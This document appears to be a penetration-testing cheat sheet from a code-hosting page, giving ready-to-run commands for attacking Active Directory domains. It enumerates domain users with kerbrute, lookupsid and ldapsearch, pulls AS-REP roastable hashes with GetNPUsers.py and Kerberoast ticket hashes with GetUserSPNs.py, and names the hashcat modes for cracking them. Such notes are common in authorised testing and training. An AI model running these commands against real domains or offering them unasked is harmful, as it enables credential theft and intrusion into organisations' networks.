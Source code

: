 # asreproast
##### get a list of valid users
```bash
# Kerbrute
kerbrute userenum --dc $ip -d $dom /path/to/userlist

# Impacket's lookupsid
lookupsid.py anonymous@$ip

# ldapsearch
ldapsearch -h $ip -p 389 -x -b "dc=domain,dc=local"
```

##### check users for asreproastable victim
```bash
GetNPUsers.py -usersfile /path/to/list.txt -format hashcat -outputfile hashes.asreproast -dc-ip $ip $dom/
# crack the hash with hashcat -m 18200
```

# kerberoast
##### enumerate spn in search of a victim
```bash
GetUserSPNs.py -dc-ip $ip -outputfile ./kerberoast.hashes -usersfile ./customusers.txt $dom/username:password
# crack the hash with hashcat -m 13100
```